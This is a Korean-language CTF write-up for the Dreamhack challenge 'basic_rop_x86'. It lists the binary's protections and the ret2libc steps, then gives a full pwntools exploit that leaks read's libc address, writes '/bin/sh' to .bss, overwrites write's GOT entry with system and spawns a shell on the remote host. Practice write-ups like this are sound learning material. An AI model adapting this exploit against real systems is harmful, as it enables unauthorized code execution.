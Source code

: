 # basic_rop_x86

일단 문제 파일에 적용된 보호 기법을 확인한다.   
<br/>

![](1.PNG)   
32bit 바이너리 파일이며 보호기법은 Partial RELRO와 NX만 걸려있는 것을 알 수 있다.   
<br/>


exploit을 위한 과정은 다음과 같다.
1. ROP gadget을 구한다.
2. read 함수의 실제 주소를 구한다.
3. read 함수의 주소를 가지고 libc의 주소를 구한다.
4. libc 주소와 system 함수의 offset을 이용하여 system 함수의 주소를 계산한다.
5. .bss영역에 "/bin/sh"를 입력한다.
6. write 함수의 주소를 system 함수의 주소로 덮어씌운다.
7. system 함수로 바뀐 write 함수를 실행시킨다.   


<br/>

![](2.PNG)   
ROP gadget을 구해주고 다음과 같이 explit 코드를 작성해준다.   

```
from pwn import *

p = remote("host1.dreamhack.games", 9808)

e = ELF('./basic_rop_x86')
libc = ELF('./libc.so.6')

read_plt = e.plt['read']
read_got = e.got['read']

write_plt = e.plt['write']
write_got = e.got['write']

pppr = 0x8048689
bss = e.bss()

payload = ""
payload += 'A'*72
payload += p32(write_plt)
payload += p32(pppr)
payload += p32(1)
payload += p32(read_got)
payload += p32(4)

payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0)
payload += p32(bss)
payload += p32(8)

payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0)
payload += p32(write_got)
payload += p32(4)

payload += p32(write_plt)
payload += "AAAA"
payload += p32(bss)



p.send(payload)

sleep(0.3)

read_addr = u32(p.recv()[-4:])
libc_addr = read_addr - libc.symbols['read']
system_addr = libc_addr + libc.symbols['system']

p.send("/bin/sh\x00")

p.send(p32(system_addr))


p.interactive()
```
